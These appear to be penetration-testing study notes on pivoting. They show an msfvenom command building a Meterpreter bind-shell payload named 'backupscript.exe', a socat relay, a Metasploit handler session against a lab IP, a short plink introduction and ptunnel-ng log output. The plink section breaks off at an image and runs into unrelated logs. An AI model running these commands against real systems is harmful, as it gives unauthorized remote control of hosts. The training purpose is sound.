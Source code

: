 In the case of bind shells, the Windows server will start a listener and bind to a particular port. 

### **Creating the Windows Payload**

- `msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443`

### **Starting Socat Bind Shell Listener**

- `socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443`

We can start a `socat bind shell` listener, which listens on port `8080` and forwards packets to Windows server `8443`.

### **Configuring & Starting the Bind multi/handler**

```
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf6 exploit(multi/handler) > set RHOST 10.129.202.64
RHOST => 10.129.202.64
msf6 exploit(multi/handler) > set LPORT 8080
LPORT => 8080
msf6 exploit(multi/handler) > run

[*] Started bind TCP handler against 10.129.202.64:8080
```

# **Pivoting Around Obstacles**

# **SSH for Windows: plink.exe**

`plink` is short for PuTTY link, which is windows cli ssh tool which comes with Putty package when installed.

Before Fall of 2018, windows did not have a native ssh client included, so putty was popular choice for sysadmins.

Similar to SSH, Plink can also be used to create dynamic port forwards and SOCKS proxies

## **Getting To Know Plink**

![Untitled](.gitbook/assets/Untitled%202.png)


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.